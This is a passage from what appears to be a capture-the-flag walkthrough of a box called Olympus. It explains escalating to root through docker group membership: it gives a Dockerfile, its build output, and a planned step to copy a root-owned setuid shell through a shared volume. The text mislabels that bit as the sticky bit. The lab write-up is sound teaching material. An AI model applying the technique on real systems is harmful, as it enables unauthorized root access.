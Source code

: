 Among the things we can look for when we are enumerating a box is the current groups that the user is a part of:
![prometheus groups](screenshots/16_prometheus_groups.PNG)

Having a user in the docker group can be dangerous.  Docker typically runs as root on the host, and users in the docker group can run docker commands.  We can utilize this group membership to escalate privileges<sup>[7]</sup>.  Using the technique on that page, let's see if we can get a root shell.

Steps:
  1.  Create a dockerfile that describes a new container.  In that container, we will expose a directory from the host to the container.  This will allow us to write files from the container to the host.  This does not sound very interesting, but it will make sense shortly.
  2.  Build the new container.
  3.  Run a command in the container that makes a copy of /bin/sh (or whatever shell you want to use), changes the ownership to root, and sets the sticky bit.  We will make the copy in the folder that is shared between the host and container.  We are root in the container, so if we are able to create an executable that runs as root in the container and write it to the host, we will be able to run it as root on the host.

### Step 1
```bash
# Here is the dockerfile we will use.
# I saved it in /tmp/procontainer (prometheus container), but anywhere writable will work.

# Leverage one of the existing images since we cannot connect to the internet
# You can get a list of images on the host using the command "docker image ls"
FROM crete

# Make a new environment called WORKDIR and point it at a writeable directory
ENV WORKDIR /tmp

# Create WORKDIR if it does not exist
RUN mkdir -p $WORKDIR

# Expose WORKDIR as a volume to the container
VOLUME [ $WORKDIR ]

WORKDIR $WORKDIR
```

### Step 2
```bash
# Build it
prometheus@olympus:/tmp/procontainer$ docker build -t procontainer .
Sending build context to Docker daemon  2.048kB
Step 1/5 : FROM crete
 ---> 31be8149528e
Step 2/5 : ENV WORKDIR /tmp
 ---> Running in 0d76afe659b3
Removing intermediate container 0d76afe659b3
 ---> 45c8c6d5bc22
Step 3/5 : RUN mkdir -p $WORKDIR
 ---> Running in 3aedb7300193
Removing intermediate container 3aedb7300193
 ---> 8e7637415702
Step 4/5 : VOLUME [ $WORKDIR ]
 ---> Running in e390abd9bb3c
Removing intermediate container e390abd9bb3c
 ---> fb40272a38e3
Step 5/5 : WORKDIR $WORKDIR
Removing intermediate container f0a3f5c33acc
```

[1]: https://xdebug.org/ "Xdebug"
[2]: https://paper.seebug.org/397/ "Xdebug: A Tiny Attack Surface"
[3]: https://github.com/v1s1t0r1sh3r3/airgeddon "Airgeddon"
[4]: https://www.aircrack-ng.org/ "Aircrack-ng"
[5]: https://wiki.archlinux.org/index.php/Port_knocking "Port knocking - ArchWiki"
[6]: https://highon.coffee/blog/fartknocker-walkthrough/ "FartKnocker - Walkthrough"
[7]: https://0x00sec.org/t/docker-privilege-escalation-how-the-hell-did-you-do-that/1103 "Docker Privilege Escalation"